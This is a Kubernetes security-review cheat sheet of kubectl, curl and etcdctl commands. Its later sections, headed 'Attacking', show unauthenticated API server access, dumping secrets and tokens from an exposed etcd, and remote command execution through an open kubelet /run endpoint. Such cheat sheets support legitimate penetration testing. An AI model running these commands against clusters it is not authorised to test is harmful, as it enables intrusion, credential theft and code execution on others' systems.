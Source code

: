 # Kubernetes Security Cheat Sheet

This is a series of commands and manifests that could be useful on Kubernetes security reviews.

# Basic Kubernetes Commands

## List Pods in all namespaces

This will list all pods in the cluster (assuming you have rights to list pods)

```
kubectl get pods --all-namespaces
```

## List namespaces

This will list all namespaces in the cluster

```
kubectl get ns
```

## List pods in the kube-system namespaces

This will list all pods in the `kube-system` namespace

```
kubectl get po -n kube-system
```

## Extracting information in other formats

You can and `-o json` or `-o yaml` to get commands to get more detailed information in one of those formats.  This command will list all pods in the cluster in json format.

```
kubectl get po --all-namespaces -o json
```


# Creating Pods

## Running a pod in a cluster

This command will run an interactive pod in the default namespace based on the `raesene/alpine-containertools` image on Docker hub and place you in an `ash` shell in the pod.  The pod name will be `mycontainer` plus a randomly assigned suffix.

```
kubectl run -it mycontainer --image=raesene/alpine-containertools /bin/ash
```

## Running a pod using a manifest

This YAML manifest will create a basic pod inside the cluster

```
apiVersion: v1
kind: Pod
metadata:
  name: basicpod
  labels:
spec:
  containers:
  - name: basicpod
    image: raesene/alpine-containertools
```

If this is saved as `basicpod.yml`, running the command below will create a pod in the default namespace of the cluster called basicpod using the docker hub image `raesene/alpine-containertools`

```
kubectl create -f basicpod.yml
```

Then once you've done with the pod, you can delete it with

```
kubectl delete -f basicpod.yml
```

# Kubectl Useful commands

## Kubectl proxy

This command will expose the Kubernetes API on `127.0.0.1:8001` without authentication allowing you to use `curl` or similar to explore it

```
kubectl proxy
```

## kubectl port-forward

You can use `kubectl` to get access to any port running in any pod in the cluster (assuming you have pod/exec rights)

The command below will forward port 80/TCP from inside a pod called `webserver` to port 8099/TCP on the localhost interface of the client system

```
kubectl port-forward webserver 8099:80
```

## kubectl cp

You can copy files directly out of any pod that you have pod/exec rights to using `kubectl cp`.

The command below copies a file called `/etc/passwd` from inside a pod called `webserver` to the current directory of the client machine.

```
kubectl cp webserver:/etc/passwd ./passwd
```

# Testing Kubernetes Components

## Ports to look for

`443/TCP` OR `6443/TCP` OR `8443/TCP` - Kubernetes API server with TLS
`8080/TCP` - Insecure API server
`2379/TCP` - etcd client communications
`2380/TCP` - etcd server-server communications
`10250/TCP` - kubelet Read/Write
`10255/TCP` - kubelet Read-only

## Attacking the Kubernetes API server

You can attempt to access an API server without credentials using this command

```
kubectl --insecure-skip-tls-verify -shttps://[IP]:[PORT] get po
```

## Attacking the Kubernetes Insecure Port

If this is accessible over the network you can easily run kubectl commands

```
kubectl -shttp://[IP]:8080 get po
```

## Attacking etcd

First step is generally to check whether `etcd` is available over an unencrypted port, which indicates (usually) that it's available unauthenticated

```
curl http://[IP]:2379/version
```

If that returns data it's generally possible to extract any information that is in the database.  Get the `etcdctl` client installed then do the following.  First set this env var to put etcdctl into v3 mode.

```
export ETCDCTL_API=3
```

```
etcdctl --insecure-transport=true\
--endpoints=http://[IP]:2379\
get / --prefix --keys-only
```

This lists all the keys in the database, you can then pick one of the secrets and dump out the JWT token.  For example the command below

```
etcdctl --insecure-transport=true\
--endpoints=https://[IP]:2379\
get /registry/secrets/kube-system/default-token-abs45
```

You can then use the token with the API server. As a demonstration the following curl command 

```
curl -k -H "Authorization: Bearer [TOKEN]" https://[IP]:6443
```

##  Attacking the Kubelet Read-Only

Info. disclosure with kubelet read-only should be straight-forward as it has no authentication.

```
curl http://IP:10255/pods/ 
```

## Attacking the Kubelet Read/Write

An initial test to see if the R/W kubelet is available unauthenticated is

```
curl https://[IP]:10250/runningpods/ -k
```

If this returns data find the `namespace` pod `name` and container `name` for one of the returned pods and fill in the blanks in this command

```
curl https://[IP]:10250/run/[Namespace]/[Pod]/[Container] -k -XPOST -d "cmd=whoami"
```

You can replace the whoami with any command to execute that code on the host via the kubelet.

